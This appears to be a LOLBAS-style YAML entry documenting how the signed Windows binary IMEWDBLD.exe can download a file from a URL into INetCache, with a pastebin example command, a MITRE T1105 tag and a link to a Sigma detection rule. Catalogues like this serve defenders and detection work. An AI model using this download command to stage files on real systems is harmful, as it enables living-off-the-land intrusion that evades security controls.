 ```yaml
---
Name: IMEWDBLD.exe
Description: Microsoft IME Open Extended Dictionary Module
Author: 'Wade Hickey'
Created: 2020-03-05
Commands:
  - Command: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://pastebin.com/raw/tdyShwLw
    Description: IMEWDBLD.exe attempts to load a dictionary file, if provided a URL as an argument, it will download the file served at by that URL and save it to INetCache.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/bea6f18d350d9c9fdc067f93dde0e9b11cc22dc2/rules/windows/network_connection/net_connection_win_imewdbld.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1367493406835040265
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

